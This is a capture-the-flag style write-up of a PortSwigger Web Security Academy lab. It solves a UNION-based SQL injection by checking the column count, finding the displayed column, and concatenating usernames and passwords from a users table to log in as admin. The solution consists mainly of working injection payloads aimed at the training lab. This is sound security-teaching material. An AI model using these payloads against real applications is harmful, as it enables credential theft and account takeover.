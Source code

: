 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables.

There is another table in the database called `users` that contains `username` and `password` columns.

To solve the lab, perform a `UNION` SQL injection attack that will extract all usernames and passwords, and then use this information to log in as the admin user.
## Solution
Go to the site

![image](images/20241202173918.png)

Check that we really have 2 columns
```SQL
'+UNION+SELECT+NULL,NULL--
```

![image](images/20241202174625.png)

Check which column is displayed on the page. This is the second
```SQL
'+UNION+SELECT+NULL,'NULL'--
```

![image](images/20241202174819.png)

Now, instead of the second `NULL` we insert what we want to get
```SQL
'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
```

![image](images/20241202174907.png)

Log in as admin

![image](images/20241202174939.png)


![image](images/20241202174951.png)
